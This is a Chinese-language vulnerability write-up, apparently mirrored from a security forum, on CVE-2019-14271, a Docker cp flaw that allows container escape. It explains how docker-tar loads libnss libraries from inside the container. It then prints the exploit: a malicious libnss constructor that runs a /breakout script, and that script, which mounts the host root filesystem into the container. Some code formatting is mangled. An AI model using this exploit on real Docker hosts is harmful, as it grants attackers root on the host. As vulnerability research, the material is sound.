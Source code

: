 # （CVE-2019-14271）Docker copy漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2890](https://www.zhihuifly.com/t/topic/2890)

# （CVE-2019-14271）Docker copy漏洞

## 一、漏洞简介

## 二、漏洞影响

Docker 19.03.1

## 三、复现过程

### Docker cp

Copy命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix cp命令非常相似。要从容器中复制/var/logs，语法是docker cp container_name:/var/logs /some/host/path。

从下图所示，要从容器中将文件复制出去，Docker使用了一个名为docker-tar的帮助进程。

![image](img/5ddd7d1cee95b0637965f2cf8d512ac4.png)

图 1\. 从容器中复制文件

docker-tar是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker daemon，然后由daemon提取到主机的目标目录中。

注释：CHROOT就是Change Root，也就是改变程序执行时所参考的根目录位置。CHROOT可以增进系统的安全性，限制使用者能做的事。

![image](img/07d632cf0cf2eeb1f6ebdc1565d7c6d5.png)

图 2\. docker-tar chroot到容器中

Chroot主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到host root。因此，攻击者控制的容器就可以尝试和诱使docker cp在主机而非容器上读写文件。去年有许多Docker和Podman相关的系统链接CVE漏洞。通过chroot到容器的root，docker-tar可以确保所有系统链接都可以高效地解析。

但，chroot到容器然后从容器中复制文件可能会引发很严重的安全问题。

### CVE-2019-14271

Docker是用Golang语言编写。有漏洞的Docker版本是用Go v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括net和os/user，都是docker-tar使用的，而且在运行时会加载多个libnss_*.so库。一般来说，库是从host文件系统加载的，但因为docker-tarchroot到了容器，因此会从容器文件系统中加载库。也就是说docker-tat会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了chroot到容器文件系统外，docker-tar并没有被容器化。它是在host命名空间运行的，权限为root全新且不受限于cgroups或seccomp。因此，通过注入代码到docker-tar，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件：

容器运行含有恶意libnss_*.so库的镜像

容器中含有被攻击者替换的libnss_*.so库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意libnss库。研究人员随意选择了libnss_files.so文件，下载了库函数的源码，并在代码中加入了一个函数——run_at_link()。研究人员还为该函数定义了constructor属性。constructor属性表明run_at_link函数在进程加载时会作为库的初始化函数执行。也就是说，当Docker-tar进程动态加载恶意库时，run_at_link函数就会执行。下面是run_at_link的代码：

```
#include ...

#define ORIGINAL_LIBNSS “/original_libnss_files.so.2”

#define LIBNSS_PATH “/lib/x86_64-linux-gnu/libnss_files.so.2”

bool is_priviliged();

**attribute** ((constructor)) void run_at_link(void)

{

char * argv_break[2];

if (!is_priviliged())

return;

```
 rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
 fprintf(log_fp, "switched back to the original libnss_file.so");

 if (!fork())
 {

       // Child runs breakout
       argv_break[0] = strdup("/breakout");
       argv_break[1] = NULL;
       execve("/breakout", argv_break, NULL);
 }
 else
       wait(NULL); // Wait for child

 return; 
``` `}

bool is_priviliged()

{

FILE * proc_file = fopen("/proc/self/exe", “r”);

if (proc_file != NULL)

{

fclose(proc_file);

return false; // can open so /proc exists, not privileged

}

return true; // we’re running in the context of docker-tar

}` 
```

查/proc目录完成的。如果run_at_link运行在docker-tar环境下，那么目录就是空的，因为procfs挂载在/proc上只存在于容器的mount命名空间。

然后，run_at_link会用恶意libnss库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发run_at_link执行。

为简化该漏洞利用，run_at_link会尝试在容器的/breakout路径下运行可执行文件。这样漏洞利用的其他部分就可以用bash写入，而非C语言。让逻辑的其他部分在run_at_link外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变breakout二进制文件就可以了。

![image](img/5c5bd333283d1247c534764951704677.png)

利用CVE-2019-14271打破Docker

在该漏洞视频中，Docker用户会运行含有恶意libnss_files.so的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout二进制文件是一个简单的bash脚步，会挂载host文件系统到/host_fs的容器中，并将消息写入host的/evil目录。
/breakout脚本代码如下：

```
umount /host_fs && rm -rf /host_fs
mkdir /host_fs `mount -t proc none /proc     # mount the host’s procfs over /proc

cd /proc/1/root              # chdir to host’s root

mount --bind . /host_fs      # mount host root at /host_fs

echo “Hello from within the container!” > /host_fs/evil` 
```

## 四、参考链接

> https://xz.aliyun.com/t/6806